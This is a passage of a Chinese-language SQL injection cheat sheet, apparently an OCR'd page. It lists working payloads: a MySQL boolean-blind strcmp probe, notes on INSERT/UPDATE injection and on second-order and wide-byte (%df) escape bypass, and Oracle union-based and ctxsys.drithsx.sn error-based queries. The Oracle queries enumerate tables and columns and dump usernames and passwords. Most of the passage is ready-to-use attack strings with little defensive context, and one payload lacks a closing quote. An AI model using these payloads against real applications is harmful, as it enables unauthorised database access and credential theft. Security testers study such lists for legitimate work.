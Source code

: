   

```sql
?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
```

  

//若所有的字符串均相同，`STRCMP()` 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 1  

### **insert,delete,update**

这种注入会出现在 注册、ip头、留言板等等需要写入数据的地方，如用sqlmap会产生大量垃圾数据

  

尝试性插入、引号、双引号、转义符 `\\` 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入

### **二次注入和宽字节注入**

**二次注入**：

  

没有单引号的sql语句中，进行16进制编码，这样就不会带有单引号

  

**宽字节注入：**

  

单引号转义为 `'` , mysql 会将 `\\` 编码为 `%5c` ，宽字节中两个字节代表一个汉字

  

所以把 `%df` 加上 `%5c` 就变成了一个汉字“運”，从而绕过转义

**Oracle 手工注入**
---------------

### **联合注入**

```sql
?id=-1' union select user,null from dual--
?id=-1' union select version,null from v$instance--
?id=-1' union select table_name,null from (select * from (select rownum as limit,table_name from user_tables) where limit=3)--
?id=-1' union select column_name,null from (select * from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=2)--
?id=-1' union select username,passwd from users--
?id=-1' union select username,passwd from (select * from (select username,passwd,rownum as limit from users) where limit=3)--
```

### **报错注入**  

```sql
?id=1' and 1=ctxsys.drithsx.sn(1,(select user from dual))--?id=1' and 1=ctxsys.drithsx.sn(1,(select banner from v$version where banner like 'Oracle%))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select table_name from (select rownum as limit,table_name from user_tables) where limit= 3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select column_name from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select passwd from (select passwd,rownum as limit from users) where limit=1))--
```
